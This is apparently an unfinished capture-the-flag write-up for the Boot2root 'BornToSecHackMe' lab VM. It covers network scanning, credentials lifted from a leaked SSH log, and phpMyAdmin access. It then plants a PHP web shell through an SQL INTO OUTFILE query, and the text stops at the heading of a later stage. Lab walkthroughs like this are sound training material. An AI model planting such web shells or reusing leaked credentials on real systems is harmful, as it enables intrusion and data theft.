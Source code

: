 # Method 1

### FIND VMs ID

Let's configure 'virtual host adapter (192.168.56.1/24)' network to our VM and find it's IP.

```bash
MacBook-Pro-admin:~ avdementev$ nmap 192.168.56.1-255
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-09 00:09 MSK
Nmap scan report for 192.168.56.1
Host is up (0.00010s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
111/tcp  open  rpcbind
999/tcp  open  garcon
1021/tcp open  exp1
1023/tcp open  netvenuechat
2049/tcp open  nfs

Nmap scan report for 192.168.56.100
Host is up (0.00038s latency).
All 1000 scanned ports on 192.168.56.100 are closed

Nmap scan report for 192.168.56.101
Host is up (0.00068s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 255 IP addresses (3 hosts up) scanned in 81.90 seconds
```

The result IP will be like 192.168.56.x (In this case - 192.168.56.100)

### Scan 80 and 443
Let's open http://192.168.56.100
(TODO: add 1.png)

We will use penteesting tools like Burp Suite or dirb.
```bash
TODO: burp example
```

### FORUM - Probleme login ?

```
....
....
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```
!q\]Ej?*5K5cy*AJ - PASSWORD???
After some tries we got password for lmezards forum account
```
lmezard:!q\]Ej?*5K5cy*AJ
```
(TODO: add 2.png)

Lmezards mail is laurie@borntosec.net
Let's try to access to 192.168.56.x/forum with the same password

```
laurie@borntosec.net:!q\]Ej?*5K5cy*AJ
```

There is the message DB Access:

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

Now we can to access 192.168.56.x/phpmyadmin
(TODO: add 4.png)

### Reverse Shell


The basic reverse shell injection looks litke this

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/backdoor.php"
```
It does not work becouse permission denied.

But it works:
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile '/var/www/forum/templates_c/backdoor.php'
```

Now we can use this php like shell.

https://192.168.56.101/forum/templates_c/backdoor.php?cmd=ls%20/home
```
LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz
```

https://192.168.56.101/forum/templates_c/backdoor.php?cmd=ls%20/home/LOOKATAME
```
password
```

https://192.168.56.101/forum/templates_c/backdoor.php?cmd=cat%20/home/LOOKATME/password
```
lmezard:G!@M6f4Eatau{sF"
```

And now we can to pass this data to ssh or ftp.
FTP is ok.
(TODO: add 5.png)

### Sort files (Lmezerd)

There are two files fun and README.md
```
MacBook-Pro-admin:lmezard avdementev$ cat README 
Complete this little challenge and use the result as password for user 'laurie' to login in ssh

MacBook-Pro-admin:lmezard avdementev$ file fun
fun: POSIX tar archive (GNU)
MacBook-Pro-admin:lmezard avdementev$ tar xvf fun
x ft_fun/
x ft_fun/C4D03.pcap
x ft_fun/GKGEP.pcap
..
x ft_fun/Y8S1M.pcap
MacBook-Pro-admin:lmezard avdementev$ ls -l ft_fun/ | wc -l
     751
MacBook-Pro-admin:lmezard avdementev$ 
```

There are 751 file with pieces of code... The solve program in lmezard folder.

We got password:
```
Iheartpwnage
sha256(Iheartpwnage) = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

Let's connect to SSH:
```
laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

### Reverse program (laurie)

```
laurie@192.168.56.101's password:
laurie@BornToSecHackMe:~$ ls
bomb  README
laurie@BornToSecHackMe:~$ cat README
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

Lets download bomb file and open it in IDA.

```
MacBook-Pro-admin:Boot2root avdementev$ scp laurie@192.168.56.101:/home/laurie/bomb ./laurie
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.56.101's password: 
bomb                                                                                                                                  100%   26KB  18.4MB/s   00:00  
```

### Phase1

![phase1](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_1.png)

### Phase2
![phase2](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_2.png)

### Phase3
![phase3](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_3.png)

### Phase4
![phase4](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_4.png)

### Phase5
![phase5](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_5.png)

### Phase6

## Torture (Thor)
